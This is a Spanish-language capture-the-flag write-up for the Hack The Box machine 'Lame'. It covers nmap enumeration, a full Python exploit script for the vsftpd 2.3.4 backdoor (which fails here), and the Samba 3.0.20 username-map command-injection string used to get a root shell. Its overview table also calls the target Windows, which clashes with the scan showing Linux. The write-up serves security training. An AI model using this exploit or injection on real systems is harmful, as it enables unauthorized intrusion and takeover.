

# Lame


**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|Samba|Samba|


#
## 2. Enumeración<a name="id1"></a>

### 2.1 Nmap

Se realiza un escano con nmap jugando con el min-rate para no emitir paquetes más lentos que 5000 paquetes por segundo. El resultado se exporta al fichero grepeable allPorts.

```bash
❯ nmap -sS --min-rate 5000 -p- -n -Pn 10.10.10.3 -vv -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-21 14:28 CET
Initiating SYN Stealth Scan at 14:28
Scanning 10.10.10.3 [65535 ports]
SYN Stealth Scan Timing: About 50.00% done; ETC: 14:30 (0:00:52 remaining)
Discovered open port 21/tcp on 10.10.10.3
Discovered open port 445/tcp on 10.10.10.3
Discovered open port 139/tcp on 10.10.10.3
Discovered open port 22/tcp on 10.10.10.3
Discovered open port 3632/tcp on 10.10.10.3
Completed SYN Stealth Scan at 14:30, 108.30s elapsed (65535 total ports)
Nmap scan report for 10.10.10.3
Host is up, received user-set (0.12s latency).
Scanned at 2021-11-21 14:28:57 CET for 109s
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 63
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
3632/tcp open  distccd      syn-ack ttl 63
```

Ejecutamos un segundo escaneo, lanzando los scripts básicos de enumeración de nmap y tratando de descubrir la versión y typo de los servicios.

```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-11-21T13:38:21-05:00
|_clock-skew: mean: 2h30m20s, deviation: 3h32m08s, median: 19s
```

Con searchsploit se verifican los puertos y servicios detectados en busca de versiones vulnerables.

#
## 3. Explotación<a name="id1"></a>

### 3.1 Vsftpd 2.3.4 (Posible backdoor)


Se prueba la vulnerabilidad de varias formas y con distintas herramientas antes de descartar este vector de entrada.

#### 3.1.1 Metasploit


#### 3.1.2 Python

```python
#!/usr/bin/python3

from telnetlib import Telnet
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)
parser=argparse.ArgumentParser()
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()
host = args.host
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

No hay ninguna conexión en el puerto 6200.
```bash
❯ python3 49757.py 10.10.10.3
^C   [+]Exiting...
```

#### 3.1.3 Manual

Tal y como se aprecia en el script anterior. Despues de realizar una conexion ftp autenticandose con user="user:)" password="pass" se abre el puerto 6200, el cual permite realizar una conexión telnet.


Despues de autenticase en el servicio FTP, el puerto 6200 permanece cerrado, por lo que esta vulnerabilidad está parcheada o con workaround.

### 3.2 Samba 3.0.20 - Username Map Script


### 3.2.1 Mestasploit

Con el módulo de metasploit es fácil. Se adquieren privilegios de root sobre la máquina víctima.



### 3.2.2 Manual 

Se analiza el script de mestasploit para reproducir la vulnerabilidad de forma manual. La vulnerabilidad permite ejecutar comandos de forma remota especificando el siguiente string como user durante el ```logon```

```bash
/='nohub [cmd]'
```


En la siguiente figura, se obtiene una shell como root.


